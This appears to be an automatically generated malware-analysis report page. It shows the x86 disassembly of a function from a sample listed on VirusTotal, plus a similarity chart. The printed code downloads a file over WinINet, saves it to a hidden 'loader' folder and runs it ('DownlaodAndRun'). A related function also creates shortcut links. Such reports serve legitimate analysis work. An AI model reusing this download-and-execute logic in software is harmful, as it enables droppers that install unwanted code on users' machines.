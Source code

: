 ```yaml
---
layout: post
title:  "fcn.00401569 @ de21a548b66aa6c0b17491b6a31e14fa"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00401569
- **Origin (md5):** de21a548b66aa6c0b17491b6a31e14fa
- **VirusTotal:** [virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Behaviour Tags
<span class="bhv-tag" id="na">N/A</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [781.0200805664062, 260.0421447753906, '<b><a href="/report/fcn.00401569@de21a548b66aa6c0b17491b6a31e14fa">fcn.00401569</a><br>@de21a548b66aa6c0b17491b6a31e14fa</b><br>jmp 0x4040e6<br>push ebp<br>mov ebp, esp<br>push 0xffffffffffffffff<br>push 0x43a17b<br>mov eax, dword<br>push eax<br>mov eax, 0x402c<br>call fcn.0040cf10<br>push ebx<br>push esi<br>push edi<br>mov eax, dword[0x4481b0]<br>xor eax, ebp<br>push eax<br>lea eax, [ebp-0xc]<br>mov dword<br>mov eax, dword[ebp+8]<br>mov ecx, dword[eax-0xc]<br>xor ebx, ebx<br>cmp ecx, ebx<br>mov dword[ebp-4], 1<br>jne 0x404142<br>lea ecx, [eax-0x10]<br>call fcn.00401050<br>mov ecx, dword[ebp+0xc]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>xor eax, eax<br>jmp 0x40447e<br>push eax<br>lea eax, [ebp-0x1c]<br>push eax<br>call fcn.0040145b<br>pop ecx<br>pop ecx<br>push 0x4498ac<br>lea ecx, [ebp-0x14]<br>mov byte[ebp-4], 2<br>call fcn.004014a1<br>lea eax, [ebp-0x28]<br>push ebx<br>push eax<br>mov byte[ebp-4], 3<br>call fcn.0040123a<br>pop ecx<br>pop ecx<br>push eax<br>lea ecx, [ebp-0x14]<br>mov byte[ebp-4], 4<br>call fcn.00401069<br>mov ecx, dword[ebp-0x28]<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 3<br>call fcn.00401050<br>push str.loader<br>mov edi, 0x104<br>push edi<br>lea ecx, [ebp-0x14]<br>call fcn.00401393<br>mov esi, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call esi<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x14]<br>call fcn.00401532<br>push dword[ebp-0x14]<br>call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]<br>test eax, eax<br>jne 0x4041e0<br>push ebx<br>push dword[ebp-0x14]<br>push ebx<br>call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]<br>push dword[ebp-0x14]<br>call fcn.0040170d<br>pop ecx<br>push 0x80<br>push dword[ebp-0x14]<br>call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]<br>lea eax, [ebp-0x14]<br>push eax<br>lea ecx, [ebp-0x2c]<br>call fcn.004010be<br>push dword[ebp-0x1c]<br>lea ecx, [ebp-0x2c]<br>push edi<br>mov byte[ebp-4], 5<br>call fcn.00401393<br>push eax<br>call esi<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x2c]<br>call fcn.00401532<br>push ebx<br>push ebx<br>push ebx<br>push ebx<br>push str.DownlaodAndRun<br>mov byte[ebp-0xd], bl<br>call dword[sym.imp.WININET.dll_InternetOpenW]<br>cmp eax, ebx<br>mov edi, dword[ebp-0x2c]<br>mov dword[ebp-0x20], eax<br>je 0x40434b<br>push ebx<br>push 0x80000000<br>push ebx<br>push ebx<br>push dword[ebp+8]<br>push eax<br>call dword[sym.imp.WININET.dll_InternetOpenUrlW]<br>cmp eax, ebx<br>mov dword[ebp-0x18], eax<br>je 0x40432f<br>push ebx<br>lea ecx, [ebp-0x38]<br>push ecx<br>lea ecx, [ebp-0x34]<br>push ecx<br>push 0x20000005<br>push eax<br>mov dword[ebp-0x34], ebx<br>mov dword[ebp-0x38], 4<br>call dword[sym.imp.WININET.dll_HttpQueryInfoW]<br>test eax, eax<br>mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>jne 0x40427a<br>push str._Statistics::DownlaodAndRun__DownlaodAndRun:HttpQueryInfo_Error.<br>call esi<br>mov byte[ebp-0xd], 1<br>push ebx<br>lea eax, [ebp-0x38]<br>push eax<br>lea eax, [ebp-0x30]<br>push eax<br>push 0x20000013<br>push dword[ebp-0x18]<br>mov dword[ebp-0x30], ebx<br>call dword[sym.imp.WININET.dll_HttpQueryInfoW]<br>test eax, eax<br>jne 0x40429c<br>mov byte[ebp-0xd], 1<br>cmp dword[ebp-0x30], 0xc8<br>je 0x4042a9<br>mov byte[ebp-0xd], 1<br>cmp byte[ebp-0xd], bl<br>jne 0x404324<br>cmp dword[ebp-0x34], ebx<br>je 0x404324<br>push 0x43f974<br>push edi<br>call fcn.0040cea7<br>cmp eax, ebx<br>pop ecx<br>pop ecx<br>mov dword[ebp-0x28], eax<br>jne 0x4042d4<br>push str._Statistics::DownlaodAndRun__DownlaodAndRun:File_Create_Error<br>call esi<br>mov byte[ebp-0xd], 1<br>jmp 0x404324<br>mov dword[ebp-0x24], ebx<br>lea eax, [ebp-0x24]<br>push eax<br>push 0x4000<br>lea eax, [ebp-0x4038]<br>push eax<br>push dword[ebp-0x18]<br>call dword[sym.imp.WININET.dll_InternetReadFile]<br>cmp eax, ebx<br>je 0x404317<br>cmp dword[ebp-0x24], ebx<br>je 0x40431b<br>push dword[ebp-0x28]<br>lea eax, [ebp-0x4038]<br>push dword[ebp-0x24]<br>push 1<br>push eax<br>call fcn.0040cd5f<br>add esp, 0x10<br>cmp dword[ebp-0x24], ebx<br>jne 0x4042d7<br>jmp 0x40431b<br>mov byte[ebp-0xd], 1<br>push dword[ebp-0x28]<br>call fcn.0040cb84<br>pop ecx<br>push dword[ebp-0x18]<br>call dword[sym.imp.WININET.dll_InternetCloseHandle]<br>jmp 0x404340<br>mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpenUrl_Error<br>call esi<br>mov byte[ebp-0xd], 1<br>push dword[ebp-0x20]<br>call dword[sym.imp.WININET.dll_InternetCloseHandle]<br>jmp 0x40435c<br>mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpen_Error<br>call esi<br>mov byte[ebp-0xd], 1<br>cmp byte[ebp-0xd], bl<br>jne 0x404442<br>push edi<br>call fcn.0040110e<br>test eax, eax<br>pop ecx<br>je 0x404442<br>lea ecx, [ebp-0x18]<br>call fcn.0040141f<br>push edi<br>lea ecx, [ebp-0x18]<br>mov byte[ebp-4], 6<br>call fcn.004011cc<br>test eax, eax<br>jne 0x4043c9<br>push str.Check_Downlaod_File_Sign_fail<br>call esi<br>lea ecx, [ebp-0x18]<br>mov byte[ebp-4], 5<br>call fcn.004012b2<br>lea ecx, [edi-0x10]<br>call fcn.00401050<br>mov ecx, dword[ebp-0x14]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x1c]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+8]<br>add ecx, 0xfffffff0<br>jmp 0x40412b<br>lea eax, [ebp-0x1c]<br>push eax<br>mov esi, str.QQLive<br>lea eax, [ebp-0x20]<br>push esi<br>push eax<br>call fcn.00401604<br>push dword[eax]<br>mov byte[ebp-4], 7<br>push edi<br>call fcn.004016db<br>mov ecx, dword[ebp-0x20]<br>add esp, 0x14<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 6<br>call fcn.00401050<br>lea eax, [ebp-0x1c]<br>push eax<br>lea eax, [ebp-0x20]<br>push esi<br>push eax<br>call fcn.00401604<br>push dword[eax]<br>mov byte[ebp-4], 8<br>push edi<br>call fcn.004010ff<br>mov ecx, dword[ebp-0x20]<br>add esp, 0x14<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 6<br>call fcn.00401050<br>push 1<br>push 1<br>push dword[ebp+0xc]<br>push edi<br>call fcn.004012da<br>add esp, 0x10<br>lea ecx, [ebp-0x18]<br>mov byte[ebp-4], 5<br>call fcn.004012b2<br>lea ecx, [edi-0x10]<br>call fcn.00401050<br>mov ecx, dword[ebp-0x14]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x1c]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+8]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0xc]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>xor eax, eax<br>cmp byte[ebp-0xd], bl<br>sete al<br>mov ecx, dword[ebp-0xc]<br>mov dword<br>pop ecx<br>pop edi<br>pop esi<br>pop ebx<br>leave <br>ret 8<br><eoc> ', 'point { fill-color: #e0440e; }'],
[-781.0203247070312, -260.0421447753906, '<b><a href="/report/fcn.0040128f@de21a548b66aa6c0b17491b6a31e14fa">fcn.0040128f</a><br>@de21a548b66aa6c0b17491b6a31e14fa</b><br>jmp 0x40469c<br>push ebp<br>lea ebp, [esp-0x20c]<br>sub esp, 0x20c<br>push 0xffffffffffffffff<br>push 0x43a28f<br>mov eax, dword<br>push eax<br>mov eax, 0x402c<br>call fcn.0040cf10<br>mov eax, dword[0x4481b0]<br>xor eax, ebp<br>mov dword[ebp+0x208], eax<br>push ebx<br>push esi<br>push edi<br>push eax<br>lea eax, [ebp-0xc]<br>mov dword<br>mov eax, dword[ebp+0x214]<br>mov ecx, dword[eax-0xc]<br>xor ebx, ebx<br>cmp ecx, ebx<br>mov dword[ebp-4], 4<br>jne 0x404739<br>lea ecx, [eax-0x10]<br>call fcn.00401050<br>mov ecx, dword[ebp+0x218]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x21c]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x220]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x224]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>xor eax, eax<br>jmp 0x404b75<br>push eax<br>lea eax, [ebp-0x38]<br>push eax<br>call fcn.0040145b<br>pop ecx<br>pop ecx<br>push 0x4498ac<br>lea ecx, [ebp-0x14]<br>mov byte[ebp-4], 5<br>call fcn.004014a1<br>lea eax, [ebp-0x1c]<br>push eax<br>mov byte[ebp-4], 6<br>call fcn.00401483<br>pop ecx<br>push eax<br>lea ecx, [ebp-0x14]<br>mov byte[ebp-4], 7<br>call fcn.00401069<br>mov ecx, dword[ebp-0x1c]<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 6<br>call fcn.00401050<br>mov esi, 0x104<br>push esi<br>lea ecx, [ebp-0x14]<br>call fcn.00401393<br>push eax<br>call dword[sym.imp.SHLWAPI.dll_PathRemoveFileSpecW]<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x14]<br>call fcn.00401532<br>push str.Episode<br>push esi<br>lea ecx, [ebp-0x14]<br>call fcn.00401393<br>mov edi, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call edi<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x14]<br>call fcn.00401532<br>push dword[ebp-0x14]<br>call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]<br>test eax, eax<br>jne 0x4047ef<br>push ebx<br>push dword[ebp-0x14]<br>push ebx<br>call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]<br>push dword[ebp-0x14]<br>call fcn.0040170d<br>pop ecx<br>push 0x80<br>push dword[ebp-0x14]<br>call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]<br>lea eax, [ebp-0x14]<br>push eax<br>lea ecx, [ebp-0x18]<br>call fcn.004010be<br>push dword[ebp+0x21c]<br>lea ecx, [ebp-0x18]<br>push esi<br>mov byte[ebp-4], 8<br>call fcn.00401393<br>push eax<br>call edi<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x18]<br>call fcn.00401532<br>lea eax, [ebp-0x14]<br>push eax<br>lea ecx, [ebp-0x24]<br>call fcn.004010be<br>push str._bind_777<br>lea eax, [ebp+0x220]<br>push eax<br>lea eax, [ebp-0x1c]<br>push eax<br>mov byte[ebp-4], 9<br>call fcn.00401005<br>add esp, 0xc<br>push dword[eax]<br>lea ecx, [ebp-0x24]<br>push esi<br>mov byte[ebp-4], 0xa<br>call fcn.00401393<br>push eax<br>call edi<br>mov ecx, dword[ebp-0x1c]<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 9<br>call fcn.00401050<br>push 0xffffffffffffffff<br>lea ecx, [ebp-0x24]<br>call fcn.00401532<br>push str..url<br>lea ecx, [ebp-0x24]<br>call fcn.004013ed<br>push dword[ebp-0x18]<br>mov esi, dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>mov byte[ebp-0xd], bl<br>call esi<br>push ebx<br>push ebx<br>push ebx<br>push ebx<br>push str.DownlaodAndCreateLink<br>call dword[sym.imp.WININET.dll_InternetOpenW]<br>cmp eax, ebx<br>mov dword[ebp-0x30], eax<br>je 0x4049c3<br>push ebx<br>push 0x80000000<br>push ebx<br>push ebx<br>push dword[ebp+0x214]<br>push eax<br>call dword[sym.imp.WININET.dll_InternetOpenUrlW]<br>cmp eax, ebx<br>mov dword[ebp-0x20], eax<br>je 0x4049a9<br>mov edi, dword[sym.imp.WININET.dll_HttpQueryInfoW]<br>push ebx<br>lea ecx, [ebp-0x34]<br>push ecx<br>lea ecx, [ebp-0x1c]<br>push ecx<br>push 0x20000005<br>push eax<br>mov dword[ebp-0x1c], ebx<br>mov dword[ebp-0x34], 4<br>call edi<br>test eax, eax<br>jne 0x4048f7<br>push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:HttpQueryInfo_Error.<br>call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>mov byte[ebp-0xd], 1<br>push ebx<br>lea eax, [ebp-0x34]<br>push eax<br>lea eax, [ebp-0x2c]<br>push eax<br>push 0x20000013<br>push dword[ebp-0x20]<br>mov dword[ebp-0x2c], ebx<br>call edi<br>test eax, eax<br>jne 0x404915<br>mov byte[ebp-0xd], 1<br>cmp dword[ebp-0x2c], 0xc8<br>je 0x404922<br>mov byte[ebp-0xd], 1<br>cmp byte[ebp-0xd], bl<br>jne 0x40499e<br>cmp dword[ebp-0x1c], ebx<br>je 0x40499e<br>push 0x43f974<br>push dword[ebp-0x18]<br>call fcn.0040cea7<br>mov edi, eax<br>cmp edi, ebx<br>pop ecx<br>pop ecx<br>jne 0x404952<br>push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:File_Create_Error<br>call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>mov byte[ebp-0xd], 1<br>jmp 0x40499e<br>mov dword[ebp-0x28], ebx<br>lea eax, [ebp-0x28]<br>push eax<br>push 0x4000<br>lea eax, [ebp-0x4038]<br>push eax<br>push dword[ebp-0x20]<br>call dword[sym.imp.WININET.dll_InternetReadFile]<br>cmp eax, ebx<br>je 0x404993<br>cmp dword[ebp-0x28], ebx<br>je 0x404997<br>push edi<br>push dword[ebp-0x28]<br>lea eax, [ebp-0x4038]<br>push 1<br>push eax<br>call fcn.0040cd5f<br>add esp, 0x10<br>cmp dword[ebp-0x28], ebx<br>jne 0x404955<br>jmp 0x404997<br>mov byte[ebp-0xd], 1<br>push edi<br>call fcn.0040cb84<br>pop ecx<br>push dword[ebp-0x20]<br>call dword[sym.imp.WININET.dll_InternetCloseHandle]<br>jmp 0x4049b8<br>push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:InternetOpenUrl_Error<br>call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>mov byte[ebp-0xd], 1<br>push dword[ebp-0x30]<br>call dword[sym.imp.WININET.dll_InternetCloseHandle]<br>jmp 0x4049d2<br>push 0x43fa60<br>call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]<br>mov byte[ebp-0xd], 1<br>cmp byte[ebp-0xd], bl<br>mov edi, dword[ebp-0x24]<br>jne 0x404afe<br>push ebx<br>call dword[sym.imp.ole32.dll_CoInitialize]<br>cmp eax, ebx<br>jge 0x404a22<br>mov ecx, edi<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x18]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x14]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x38]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x214]<br>add ecx, 0xfffffff0<br>jmp 0x4046f5<br>push edi<br>call esi<br>push dword[ebp+0x224]<br>push dword[ebp+0x218]<br>push dword[ebp-0x18]<br>push edi<br>call fcn.0040156e<br>add esp, 0x10<br>cmp eax, ebx<br>je 0x404af3<br>lea eax, [ebp]<br>push eax<br>call fcn.00401429<br>pop ecx<br>lea eax, [ebp]<br>push eax<br>lea ecx, [ebp-0x2c]<br>call fcn.004013e8<br>push 0x43fa5c<br>push eax<br>lea eax, [ebp-0x1c]<br>push eax<br>mov byte[ebp-4], 0xb<br>call fcn.00401005<br>lea ecx, [ebp+0x220]<br>push ecx<br>push eax<br>lea eax, [ebp-0x30]<br>push eax<br>mov byte[ebp-4], 0xc<br>call fcn.004013a2<br>push str..lnk<br>push eax<br>lea eax, [ebp-0x20]<br>push eax<br>mov byte[ebp-4], 0xd<br>call fcn.00401005<br>add esp, 0x24<br>mov ecx, dword[ebp-0x30]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x1c]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x2c]<br>add ecx, 0xfffffff0<br>mov byte[ebp-4], 0x11<br>call fcn.00401050<br>push dword[ebp-0x20]<br>call esi<br>push ebx<br>push dword[ebp+0x224]<br>push edi<br>push dword[ebp-0x18]<br>push ebx<br>push dword[ebp-0x20]<br>call fcn.00401357<br>add esp, 0x18<br>test eax, eax<br>jne 0x404ae6<br>push dword[ebp-0x18]<br>call esi<br>push edi<br>call esi<br>mov ecx, dword[ebp-0x20]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>jmp 0x404af8<br>push dword[ebp-0x18]<br>call esi<br>call dword[sym.imp.ole32.dll_CoUninitialize]<br>lea ecx, [edi-0x10]<br>call fcn.00401050<br>mov ecx, dword[ebp-0x18]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x14]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp-0x38]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x214]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x218]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x21c]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x220]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>mov ecx, dword[ebp+0x224]<br>add ecx, 0xfffffff0<br>call fcn.00401050<br>xor eax, eax<br>cmp byte[ebp-0xd], bl<br>sete al<br>mov ecx, dword[ebp-0xc]<br>mov dword<br>pop ecx<br>pop edi<br>pop esi<br>pop ebx<br>mov ecx, dword[ebp+0x208]<br>xor ecx, ebp<br>call fcn.0040b32a<br>add ebp, 0x20c<br>leave <br>ret 0x14<br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

jmp 0x4040e6
push ebp
mov ebp, esp
push 0xffffffffffffffff
push 0x43a17b
mov eax, dword
push eax
mov eax, 0x402c
call fcn.0040cf10
push ebx
push esi
push edi
mov eax, dword[0x4481b0]
xor eax, ebp
push eax
lea eax, [ebp-0xc]
mov dword
mov eax, dword[ebp+8]
mov ecx, dword[eax-0xc]
xor ebx, ebx
cmp ecx, ebx
mov dword[ebp-4], 1
jne 0x404142
lea ecx, [eax-0x10]
call fcn.00401050
mov ecx, dword[ebp+0xc]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
jmp 0x40447e
push eax
lea eax, [ebp-0x1c]
push eax
call fcn.0040145b
pop ecx
pop ecx
push 0x4498ac
lea ecx, [ebp-0x14]
mov byte[ebp-4], 2
call fcn.004014a1
lea eax, [ebp-0x28]
push ebx
push eax
mov byte[ebp-4], 3
call fcn.0040123a
pop ecx
pop ecx
push eax
lea ecx, [ebp-0x14]
mov byte[ebp-4], 4
call fcn.00401069
mov ecx, dword[ebp-0x28]
add ecx, 0xfffffff0
mov byte[ebp-4], 3
call fcn.00401050
push str.loader
mov edi, 0x104
push edi
lea ecx, [ebp-0x14]
call fcn.00401393
mov esi, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call esi
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00401532
push dword[ebp-0x14]
call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]
test eax, eax
jne 0x4041e0
push ebx
push dword[ebp-0x14]
push ebx
call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]
push dword[ebp-0x14]
call fcn.0040170d
pop ecx
push 0x80
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]
lea eax, [ebp-0x14]
push eax
lea ecx, [ebp-0x2c]
call fcn.004010be
push dword[ebp-0x1c]
lea ecx, [ebp-0x2c]
push edi
mov byte[ebp-4], 5
call fcn.00401393
push eax
call esi
push 0xffffffffffffffff
lea ecx, [ebp-0x2c]
call fcn.00401532
push ebx
push ebx
push ebx
push ebx
push str.DownlaodAndRun
mov byte[ebp-0xd], bl
call dword[sym.imp.WININET.dll_InternetOpenW]
cmp eax, ebx
mov edi, dword[ebp-0x2c]
mov dword[ebp-0x20], eax
je 0x40434b
push ebx
push 0x80000000
push ebx
push ebx
push dword[ebp+8]
push eax
call dword[sym.imp.WININET.dll_InternetOpenUrlW]
cmp eax, ebx
mov dword[ebp-0x18], eax
je 0x40432f
push ebx
lea ecx, [ebp-0x38]
push ecx
lea ecx, [ebp-0x34]
push ecx
push 0x20000005
push eax
mov dword[ebp-0x34], ebx
mov dword[ebp-0x38], 4
call dword[sym.imp.WININET.dll_HttpQueryInfoW]
test eax, eax
mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
jne 0x40427a
push str._Statistics::DownlaodAndRun__DownlaodAndRun:HttpQueryInfo_Error.
call esi
mov byte[ebp-0xd], 1
push ebx
lea eax, [ebp-0x38]
push eax
lea eax, [ebp-0x30]
push eax
push 0x20000013
push dword[ebp-0x18]
mov dword[ebp-0x30], ebx
call dword[sym.imp.WININET.dll_HttpQueryInfoW]
test eax, eax
jne 0x40429c
mov byte[ebp-0xd], 1
cmp dword[ebp-0x30], 0xc8
je 0x4042a9
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
jne 0x404324
cmp dword[ebp-0x34], ebx
je 0x404324
push 0x43f974
push edi
call fcn.0040cea7
cmp eax, ebx
pop ecx
pop ecx
mov dword[ebp-0x28], eax
jne 0x4042d4
push str._Statistics::DownlaodAndRun__DownlaodAndRun:File_Create_Error
call esi
mov byte[ebp-0xd], 1
jmp 0x404324
mov dword[ebp-0x24], ebx
lea eax, [ebp-0x24]
push eax
push 0x4000
lea eax, [ebp-0x4038]
push eax
push dword[ebp-0x18]
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp eax, ebx
je 0x404317
cmp dword[ebp-0x24], ebx
je 0x40431b
push dword[ebp-0x28]
lea eax, [ebp-0x4038]
push dword[ebp-0x24]
push 1
push eax
call fcn.0040cd5f
add esp, 0x10
cmp dword[ebp-0x24], ebx
jne 0x4042d7
jmp 0x40431b
mov byte[ebp-0xd], 1
push dword[ebp-0x28]
call fcn.0040cb84
pop ecx
push dword[ebp-0x18]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x404340
mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpenUrl_Error
call esi
mov byte[ebp-0xd], 1
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x40435c
mov esi, dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
push str._Statistics::DownlaodAndRun__DownlaodAndRun:InternetOpen_Error
call esi
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
jne 0x404442
push edi
call fcn.0040110e
test eax, eax
pop ecx
je 0x404442
lea ecx, [ebp-0x18]
call fcn.0040141f
push edi
lea ecx, [ebp-0x18]
mov byte[ebp-4], 6
call fcn.004011cc
test eax, eax
jne 0x4043c9
push str.Check_Downlaod_File_Sign_fail
call esi
lea ecx, [ebp-0x18]
mov byte[ebp-4], 5
call fcn.004012b2
lea ecx, [edi-0x10]
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+8]
add ecx, 0xfffffff0
jmp 0x40412b
lea eax, [ebp-0x1c]
push eax
mov esi, str.QQLive
lea eax, [ebp-0x20]
push esi
push eax
call fcn.00401604
push dword[eax]
mov byte[ebp-4], 7
push edi
call fcn.004016db
mov ecx, dword[ebp-0x20]
add esp, 0x14
add ecx, 0xfffffff0
mov byte[ebp-4], 6
call fcn.00401050
lea eax, [ebp-0x1c]
push eax
lea eax, [ebp-0x20]
push esi
push eax
call fcn.00401604
push dword[eax]
mov byte[ebp-4], 8
push edi
call fcn.004010ff
mov ecx, dword[ebp-0x20]
add esp, 0x14
add ecx, 0xfffffff0
mov byte[ebp-4], 6
call fcn.00401050
push 1
push 1
push dword[ebp+0xc]
push edi
call fcn.004012da
add esp, 0x10
lea ecx, [ebp-0x18]
mov byte[ebp-4], 5
call fcn.004012b2
lea ecx, [edi-0x10]
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+8]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0xc]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
cmp byte[ebp-0xd], bl
sete al
mov ecx, dword[ebp-0xc]
mov dword
pop ecx
pop edi
pop esi
pop ebx
leave
ret 8

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa